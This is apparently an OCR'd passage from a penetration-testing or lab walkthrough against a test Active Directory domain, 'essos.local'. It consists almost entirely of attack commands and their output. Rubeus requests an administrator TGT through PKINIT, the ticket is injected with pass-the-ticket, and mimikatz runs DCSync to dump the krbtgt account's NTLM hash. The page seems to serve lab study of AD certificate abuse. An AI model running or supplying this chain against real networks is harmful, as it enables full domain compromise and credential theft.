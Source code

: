 ```bash

[*] Using PKINIT with etype rc4_hmac and subject: CN=missandei, CN=Users, DC=essos, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'essos.local\administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFujCCBbagAwIBBaEDAgEWooIEwjCCBL5hggS6MIIEtqADAgEFoQ8bDUVTU09TLkxPQ0FM
      ...base64 encoded ticket...

[*] Action: Describe Ticket

  UserName                 : administrator
  UserRealm                : ESSOS.LOCAL
  ServiceName              : krbtgt/essos.local
  ServiceRealm             : ESSOS.LOCAL
  StartTime                : 1/3/2025 10:30:15 AM
  EndTime                  : 1/3/2025 8:30:15 PM
  RenewTill                : 1/10/2025 10:30:15 AM
  Flags                    : name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  : rc4_hmac
  Base64(key)              : F5/CqQX4m7A8VwM5cT6pQg==

  Note: KeyType may show AES256 on fully-patched DCs (ADV240011)
  If KeyType shows AES256, ensure you use a 256-bit compatible CSP (e.g., Microsoft Software Key Storage Provider)
```

Perfect! Now we can use the TGT to perform DCSync:

```bash
Rubeus.exe ptt /ticket:doIFujCCBbagAwIBBaEDAgEWooIEwjCCBL5hggS6...

[*] Action: Import Ticket
[+] Ticket successfully imported!

# Now perform DCSync as administrator
mimikatz.exe "lsadump::dcsync /domain:essos.local /user:krbtgt"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:essos.local /user:krbtgt
[DC] 'essos.local' will be the domain
[DC] 'meereen.essos.local' will be the DC server
[DC] 'krbtgt' will be the DSRM user

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 1/15/2023 2:14:32 PM
Object Security ID   : S-1-5-21-1394808576-3393508183-1134699666-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: a577fcf16cfef780a2ceb343ec39a0d9
```